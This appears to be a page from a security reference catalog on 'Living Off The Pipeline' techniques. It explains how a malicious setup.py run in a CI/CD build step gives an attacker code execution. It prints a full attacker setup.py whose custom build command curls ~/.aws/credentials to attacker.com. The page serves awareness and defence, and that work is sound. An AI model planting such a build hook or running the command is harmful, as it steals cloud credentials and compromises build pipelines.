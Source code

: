 ```yaml
---
layout: tool
title: setup.py
parent: Living Off The Pipeline
nav_order: 41
---
```


## Living Off The Pipeline - setup.py

A `setup.py` file is a build script for Python packages, typically used with `setuptools`. Executing this script via `python setup.py <command>` is a common pattern in CI/CD pipelines for building, testing, and packaging projects. This provides a direct and powerful "Living Off The Pipeline" (LOTP) vector.

### First-Order LOTP Tool

Running `python setup.py` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) because the `setup.py` file is an executable Python script controlled by the attacker.

#### Malicious Primitive: Remote Code Execution (RCE)

A `setup.py` script can contain any arbitrary Python code. The `setuptools` library allows for the definition of custom commands or the overriding of existing ones (like `build` or `install`). An attacker can place malicious code directly in the script or in a custom command class.

When a CI/CD pipeline executes a command like `python setup.py build` or `python setup.py install`, it runs the attacker's code.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a modified `setup.py` file. They have added a malicious command to the `build` command class.
    ```python
    # setup.py
    import os
    from setuptools import setup
    from setuptools.command.build import build as _build

    # Malicious build command
    class MaliciousBuild(_build):
        def run(self):
            os.system("curl --data-binary @$HOME/.aws/credentials http://attacker.com/")
            _build.run(self)

    setup(
        name="my-project",
        version="1.0.0",
        cmdclass={"build": MaliciousBuild},
    )
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to build the Python project.
    ```yaml
    - name: Build project
      run: python setup.py build
    ```

3.  **Execution:**
    *   The `python setup.py build` command is executed.
    *   `setuptools` invokes the attacker's `MaliciousBuild` command class instead of the default one.
    *   The `run` method is called, which executes the attacker's `os.system` payload, exfiltrating credentials before the legitimate build process continues.

This attack is dangerous because the CI/CD workflow file contains a benign and common command. The malicious payload is hidden within the project's build script.

### References

*   [Setuptools: Custom Commands](https://setuptools.pypa.io/en/latest/userguide/extension.html#custom-commands)
